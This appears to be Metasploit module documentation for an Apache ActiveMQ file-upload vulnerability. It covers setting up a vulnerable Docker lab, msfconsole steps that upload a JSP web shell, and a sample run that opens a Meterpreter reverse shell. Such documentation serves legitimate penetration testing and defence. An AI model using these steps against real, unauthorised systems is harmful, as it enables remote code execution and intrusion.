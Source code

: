 ## Vulnerable Application

This module exploits a vulnerability in Apache ActiveMQ 5.x before 5.14.0 which
allows remote attackers to upload and execute arbitrary files via an HTTP PUT
followed by an HTTP MOVE request. By default, a JSP web shell and Java
Meterpreter payload are uploaded to the `/fileserver/` path of a vulnerable
server, then moved via an HTTP MOVE request to either `/api/` or `/admin/`.
You should get a shell as the user running ActiveMQ.

### Configuring a Vulnerable Environment

To use a pre-built Docker image:

```
docker run -it -p 8161:8161 rmohr/activemq:5.10.0
```

To run an older version of ActiveMQ with Java 8, create a new `Dockerfile`:

```
FROM openjdk:8

ENV ACTIVEMQ_VERSION 5.9.0
ENV ACTIVEMQ apache-activemq-$ACTIVEMQ_VERSION

ENV ACTIVEMQ_HOME /opt/activemq

RUN \
    curl -O http://archive.apache.org/dist/activemq/apache-activemq/$ACTIVEMQ_VERSION/$ACTIVEMQ-bin.tar.gz && \
    mkdir -p /opt && \
    tar xf $ACTIVEMQ-bin.tar.gz -C /opt/ && \
    rm $ACTIVEMQ-bin.tar.gz && \
    ln -s /opt/$ACTIVEMQ $ACTIVEMQ_HOME && \
    useradd -r -M -d $ACTIVEMQ_HOME activemq && \
    chown activemq:activemq /opt/$ACTIVEMQ -R

USER activemq

WORKDIR $ACTIVEMQ_HOME
EXPOSE 61616 8161

CMD ["/bin/bash", "-c", "bin/activemq console"]
```

Next build and run the application:

```
docker build -t activemq:5.9.0 .
docker run -it -p 8161:8161 activemq:5.9.0
```

Verify the application is running by visiting
`http://localhost:8161/admin/test/` with the credentials `admin:admin`

## Verification Steps

1. Run the application locally.
1. Start msfconsole.
1. Do: `use multi/http/apache_activemq_upload_jsp`.
1. Do: `set rhosts <ip address of remote host> `.
1. Do: `set lhost <ip address of local machine`.
1. Do: `run`.
1. You should get a shell under the process running ActiveMQ.

## Options

### AutoCleanup

Remove web shells from the target system after callback is received (Default:
true)

### BasicAuthUser

User-supplied username (Default: admin)

### BasicAuthPass

User-supplied password associated with username (Default: admin)

### JSP

Desired name to assign to the JSP web shell when it is uploaded to the target
system. Do not include the `.jsp` extension (Default: randomly-generated string)

## Advanced Options

### UploadPath

Custom path into which web shells will be uploaded on the target system. If the
user determines that a nonstandard directory is able to execute .jsp files, the
user can specify this directory for exploitation (Default: attempt `/api/`; if that
fails, attempt `/admin/`)

## Scenarios

### Targeting ActiveMQ 5.9.0

```
$ msfconsole -q
msf6 > use multi/http/apache_activemq_upload_jsp
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading http://127.0.0.1:8161/opt/activemq/webapps/api/qQSWrsmnXtZ.jar
[*] Uploading http://127.0.0.1:8161/opt/activemq/webapps/api/qQSWrsmnXtZ.jsp
[*] Sending stage (58110 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:45634) at 2021-03-14 18:25:38 -0400
[+] Deleted /opt/activemq/webapps/api/qQSWrsmnXtZ.jar
[+] Deleted /opt/activemq/webapps/api/qQSWrsmnXtZ.jsp

meterpreter >
```
